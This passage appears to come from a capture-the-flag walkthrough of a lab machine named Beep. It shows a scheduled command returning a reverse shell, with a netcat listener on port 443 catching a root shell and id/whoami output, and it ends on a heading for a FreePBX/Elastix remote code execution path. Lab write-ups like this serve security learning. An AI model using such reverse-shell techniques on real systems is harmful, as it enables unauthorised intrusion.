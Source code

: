 ![schedule command](/images/posts/schedule-command.png)

![schedule command created](/images/posts/schedule-command-created.png)
 
In a minute (depending on the time you have given them), the script will run and we will get a reverse shell:

```shell
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.7] 43947
bash: no job control in this shell
[root@beep /]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[root@beep /]# whoami
root
```

# FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution [Path #5]
